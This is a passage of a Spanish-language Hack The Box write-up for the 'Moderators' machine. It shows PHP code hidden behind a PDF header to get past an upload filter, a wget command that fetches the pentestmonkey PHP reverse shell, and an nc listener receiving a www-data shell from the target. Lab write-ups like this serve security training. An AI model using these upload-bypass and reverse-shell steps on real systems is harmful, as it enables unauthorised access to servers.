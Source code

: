A la hora de ejecutar comandos, no los interpreta. También probé a enviarme una traza ICMP para asegurarme de que el problema no era la representación

<img src="/writeups/assets/img/Moderators-htb/10.png" alt="">

Modifico el script para que contenga una función más simple, como un echo

```null
%PDF-1.5 %âãÏÓ

<?php
  echo "Testing";
?>
```

<img src="/writeups/assets/img/Moderators-htb/11.png" alt="">

Teniendo esto en consideración, puedo tratar de subir un código obfuscado para así ejecutar comandos. Miro el PHPinfo para encontrar las funciones bloqueadas

<img src="/writeups/assets/img/Moderators-htb/12.png" alt="">

<img src="/writeups/assets/img/Moderators-htb/13.png" alt="">

Me descargo una función que me automatice la reverse shell en PHP, modificando la IP y el puerto hacia donde va dirijida y la subo al servidor

```null
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Gano acceso al sistema como www-data

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.173.
Ncat: Connection from 10.10.11.173:38738.
Linux moderators 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 11:31:00 up  1:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```